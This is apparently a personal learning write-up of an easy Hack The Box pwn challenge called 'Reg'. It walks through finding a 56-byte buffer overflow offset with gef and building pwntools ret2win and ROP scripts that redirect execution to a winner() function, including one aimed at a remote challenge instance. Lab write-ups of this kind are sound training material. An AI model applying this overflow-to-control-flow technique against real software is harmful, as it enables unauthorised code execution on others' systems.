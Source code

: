 # Reg Helped-Through

Name: Reg
Type: Pwn
Date:  2/3/2024
Difficulty:  Easy
Goals:  
- Begin the learn to Pwn all the things with Retired Box with CryptoCat, Active box 
- See how far I can get in an hour
Learnt:
- Add on review

Firstly, disclaimer I know this is a Simple buffer from starting the [[Jeeves-Writeup]] so my initial enumeration of the binary will be in the directory, but not discussed as I would rather focus on the flat methodology and get this done. So strings
![](enum.png)

```c
gef> pattern create <size>
# copy and paste 
run <paste pattern at correct stage of the program>
# look at *sp register address 
gef> pattern search $string_in_rsp
```

![](overflowingforrsp.png)

Then I am wondering how it actually returns the flag
![](r2d2regafl.png)
Checking interesting functions
![](pdfinterestingfunctions1.png)
Checking `initialize()`
![](syminitialize.png)
WTF is `alarm()`
![](whatisalarm.png)

So presumable we need to connect to an instance to then get the flag as it is read from a filesystem.  So I guess we then just need to put the `winner()` in `RIP` and BAM flag if I can figure out how to connect and script with pwntools. 
![](testingconnection.png)

https://es7evam.gitbook.io/security-studies/exploitation/sockets/03-connections-with-pwntools

Then Gef and gdb went weird so I had to stop. After updating my script to make it a bastardize XCT and John Hammond for that full Germanic Ginger Swooping python. I tried just making shellcode that was the function, but ...
```python
from pwn import *

context.terminal = ['tmux', 'new-window']
target = './reg'
context.binary = target
binary = ELF(target)

rhost = "94.237.56.248" 
rport = 49910 

offset = 56
shellcode = b"\x77\x69\x6e\x6e\x65\x72\x28\x29" # winner()

payload = b"".join([
            b"A" * offset,
            shellcode,
        ])


if args['PWN']:
    r = remote(rhost, rport) 
    r.send(payload)
    r.recv()
else:
    p = process(target,setuid=True)
    gdb.attach(p, gdbscript='continue')
    p.sendline(payload)
```
In wonder why it did not work
![](regtowin.png)
Then pack it into 32 bits
![](thenmadeitp32.png)

Add `time.sleep(10)` to view this better:
![](wiener.png)

I made some further tweaks, but still failed.
```python
from pwn import *
import time

context.terminal = ['tmux', 'new-window']
target = './reg'
context.binary = target
binary = ELF(target)

rhost = "94.237.56.248" 
rport = 49910 

offset = 56
shellcode = p32(binary.symbols["winner"])
info("%#x target", binary.symbols.winner)

payload = b"".join([
            b"A" * offset,
            shellcode,
        ])

if args['PWN']:
    r = remote(rhost, rport) 
    r.recvline()
    r.send(payload)
    flag = r.recvline()
    print(f"The flag is {flag}")
    r.close()
else:
    p = process(target,setuid=True)
    gdb.attach(p, gdbscript='continue')
    p.recvline()
    p.sendline(payload)
    time.sleep(10)
    p.recvline()
    p.close()
```


I think that I have absolutely improved my:
- understanding of `pwntools`
- connecting the dots without knowing what ret2win was before finding out about the concept


```python
```
#### Official Writeup 

As stated with these early retired machine I just want 1:1 ratio of Writeups and Help-Throughs and I have put in the time and actually need to put in more time to reach that ratio. 

![](handleshaveaddressvegetableidiot.png)

- My scripting was also incorrect
-  [pwnlib.elf.elf.ELF.flat](https://docs.pwntools.com/en/stable/elf/elf.html#pwnlib.elf.elf.ELF.flat)

sendlineafter()
recvuntil()
elf.functions.winner
```c
# enumerate functions
info functions
```

ROP chains with CryptoCat
```python
from pwn import *

rop = ROP(elf)
pprint(rop.gadgets)

rop.winner()
rop_chain = rop.chain()
info("rop chain: %r", rop_chain)

print(rop.dump())
```

![](fakeflagtotestreadingtherealflag.png)

And it worked!
## Post-Completion Reflection

- Misread the endianness from before
- handles -> address; the old you found a way that works and tried it, but did not work actually the step back and enumerate how something exists as is:
	- not just a function handle on the symbol table... but also an address in memory

https://pentestbook.six2dez.com/others/exploiting
https://valsamaras.medium.com/introduction-to-x64-linux-binary-exploitation-part-1-14ad4a27aeef

- CryptoCat is that person that quses python2